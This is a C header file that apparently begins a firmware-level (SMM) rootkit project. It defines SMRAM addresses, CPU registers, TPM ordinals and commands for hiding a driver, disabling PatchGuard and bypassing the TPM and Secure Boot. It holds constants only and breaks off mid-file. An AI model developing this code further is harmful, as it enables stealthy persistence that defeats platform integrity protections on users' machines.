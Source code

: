 ## 1. Core Files

### common/Definitions.h
```c
#ifndef DEFINITIONS_H
#define DEFINITIONS_H

#include <stdint.h>

// Memory region definitions
#define SMRAM_BASE          0x30000000
#define SMRAM_SIZE          0x00100000
#define SHARED_BUFFER_SIZE  0x1000

// Command definitions
#define CMD_READ_MEMORY     1
#define CMD_WRITE_MEMORY    2
#define CMD_HIDE_DRIVER     3
#define CMD_DISABLE_PG      4
#define CMD_BYPASS_TPM      5
#define CMD_BYPASS_SB       6

// Error codes
#define ERR_SUCCESS         0
#define ERR_INVALID_PARAMS  1
#define ERR_ACCESS_DENIED   2
#define ERR_MEMORY_ERROR    3
#define ERR_UNSUPPORTED     4

// CPU-specific MSR registers
#define MSR_IA32_MTRR_PHYSBASE0  0x200
#define MSR_IA32_MTRR_PHYSMASK0  0x201
#define MSR_IA32_EFER            0xC0000080
#define MSR_IA32_PRED_CMD        0x00000049
#define MSR_IA32_TSC_ADJUST      0x0000003B
#define MSR_IA32_BIOS_SIGN_ID    0x0000008B
#define MSR_IA32_UCODE_WRITE     0x00000079
#define MSR_IA32_UCODE_REV       0x0000008B
#define MSR_SMRR_BASE            0x000001F2
#define MSR_SMRR_MASK            0x000001F3

// CPU register bits
#define CR0_WP                   (1ULL << 16)
#define CR0_CD                   (1ULL << 30)
#define CR4_SMEP                 (1ULL << 20)
#define CR4_SMAP                 (1ULL << 21)

// MTRR definitions
#define MTRR_TYPE_WB             0x06
#define MTRR_VALID               (1ULL << 11)

// TPM definitions
#define TPM_ORD_Startup          0x00000099
#define TPM2_CC_StartupClear     0x00000144
#define TPM2_CC_PCR_Reset        0x0000013D

// Security protocol definitions
#define SECURITY_PROTOCOL_GUID   { 0xA46423E3, 0x4617, 0x49f1, { 0xB9, 0xFF, 0xD1, 0xBF, 0xA9, 0x11, 0x58, 0x39 } }

// Communication structures
#pragma pack(push, 1)
```